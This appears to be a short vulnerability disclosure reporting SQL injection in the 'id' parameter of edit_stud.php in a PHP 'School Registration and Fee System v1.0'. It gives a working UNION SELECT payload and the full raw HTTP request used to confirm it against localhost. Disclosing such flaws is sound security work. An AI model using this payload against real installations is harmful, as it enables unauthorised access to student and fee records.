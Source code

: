 # School Registration and Fee System v1.0 has SQL injection

BUG_Author:saintone98

Website source address:https://www.sourcecodester.com/php/10932/school-registration-and-fee-system.html

Vulnerability File: /bilal final/edit_stud.php

GET parameter 'id' exists SQL injection vulnerability

Payload: id=-1' union all select null,null,null,concat(0x71727374,0x61626364,0x51525354),null,null,null,null,null,null,null,null,null,null,null,null-- -

```
GET /bilal%20final/edit_stud.php?id=-1%27%20union%20all%20select%20null,null,null,concat(0x71727374,0x61626364,0x51525354),null,null,null,null,null,null,null,null,null,null,null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=2vcgmn9u7h75h5jbjdi1d2e871
Connection: close
```

The string is displayed as scheduled

![image](https://github.com/saintone98/picture/blob/main/abcd.png)
